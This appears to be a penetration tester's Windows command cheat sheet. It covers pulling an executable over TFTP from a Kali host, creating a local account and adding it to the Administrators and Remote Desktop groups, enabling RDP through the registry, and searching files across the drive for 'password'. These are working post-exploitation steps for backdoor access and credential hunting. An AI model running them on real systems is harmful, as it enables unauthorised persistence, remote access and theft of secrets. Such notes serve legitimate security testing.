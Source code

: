 # windows-stuff
### Install TFTP (Windows 7, Windows Vista, Windows Server 2008/2008 R2)
pkgmgr /iu:"TFTP"

C:\>tftp -i IPADDRESS get FILE.EXE
	
Make sure it is set up/running on Kali

mkdir /tftp

atftpd --daemon --port 69 /tftp

cp /FILE.EXE /tftp/


### Add a local user account
net user tester testing /ADD

### Add a local user account to the Local Administrators group
net localgroup administrators tester /ADD

### Add a local user account to the Remote Desktop Users group
net localgroup "Remote Desktop Users" tester /ADD

### Enable RDP on the system (port 3389)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Search for a file
C:\> dir filename.txt /s

### Search for a string in all files
findstr /S /I /M password c: \*

  Go crazy:   findstr /si password *.txt | *.xml | *.ini | *.doc | *.snt | *.html | *.rtf | *.docx | *.eml | *.msg
	  
	  More info on options: https://en.wikipedia.org/wiki/Findstr

### Windows System Version
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

systeminfo

ver

### Directory Traversal
C:\Windows/system32/Eula.txt -- This will often show you exact version of Windows running including Language
